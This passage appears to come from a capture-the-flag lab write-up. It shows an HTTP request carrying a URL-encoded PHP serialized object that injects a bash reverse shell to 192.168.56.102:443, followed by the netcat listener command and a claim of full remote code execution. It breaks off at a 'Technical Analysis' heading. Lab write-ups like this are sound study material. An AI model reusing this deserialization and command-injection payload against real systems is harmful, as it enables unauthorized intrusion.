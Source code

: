 ### Exploit Execution

The malicious payload was delivered through the following HTTP request:

```json
POST / HTTP/1.1
Host: secure.cereal.ctf:44441
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://secure.cereal.ctf:44441/
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://secure.cereal.ctf:44441
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

obj=O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A55%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.56.102%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D&ip=127.0.0.1
```

### Reverse Shell Establishment

A netcat listener was established to receive the reverse shell connection:

```bash
nc -nlvp 443
```

**Successful Exploitation**:

![Reverse Shell Success](images/Pasted%20image%2020250802184513.png)

The exploit successfully bypassed the validation mechanisms and established a reverse shell connection, demonstrating complete remote code execution.

## Technical Analysis

